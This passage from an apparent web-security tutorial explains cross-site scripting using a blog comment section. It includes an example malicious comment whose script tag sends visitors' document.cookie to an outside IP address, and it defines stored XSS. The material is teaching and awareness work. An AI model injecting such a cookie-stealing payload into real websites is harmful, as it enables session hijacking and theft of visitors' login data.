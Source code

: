It becomes: 
> **Comments Section** <br>
That's a very nice picture! <br>
Good photograph! <br>
I **like** your photograph!

HTML also supports <trigger for="modal:script">`<script>`</trigger>, for you to write `JavaScript` code on the webpage as well. 

<modal title="**`<script>` and `</script>` in html**" id="modal:script">
In HTML, anything between the opening and closing script tags will run as <b>JavaScript</b>. 
</modal>

What happens when a malicious user submits the following as a comment?

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

It becomes: 
> **Comments Section** <br>
That's a very nice picture! <br>
Good photograph! <br>
I **like** your photograph! <br>
This is an innocent looking comment.

Visitors of the blog will only see the non-script portion of the comment. The script portion is rendered as `Javascript` just like how the `<b>` and `<i>` tags causes text to be **bolded** and *italicised* but the tags themselves are not shown. 

The script `<script>sendToServer("http://139.241.0.3/", document.cookie)</script>` will be run immediately when the visitors load the website. Here, the visitor will be unaware that his <trigger for="modal:cookie">cookie</trigger> is stolen. 

<modal title="**What is a Cookie?**" id="modal:cookie">
A cookie is a piece of data sent from the server and stored on the client's computer. It can contain sensitive information such as login data. You can read more about it <a href="https://en.wikipedia.org/wiki/HTTP_cookie" target="_blank">here</a>.
</modal>

Therefore, the malicious user has managed to add additional "functionalities" to the website that is not intended by the original website developer.

> Trivia: The term "Cross Site Scripting" is actually an old term. It originally describe an attack whereby hackers write malicious JavaScript scripts on a separate website, and injects it into the victim's website, in order to steal data from the victim's website/deface the page (hence "Cross Site"). Such attacks are no longer possible today, and the modern definition of "Cross Site Scripting" includes attacks that do not need to be on a separate website to work.

## Types of XSS

There are no standard definitions, but there are at least two different types of
XSS:

* Persistent XSS (also known as stored XSS) - The injected `JavaScript` code gets stored in
the web server. Example: Posting a malicious `JavaScript` code into a blog post as
a comment. The comment gets stored in the server database, and when visitors visit the webpage, their web browsers will retrieve the comment from the database and run the malicious `JavaScript` code automatically.
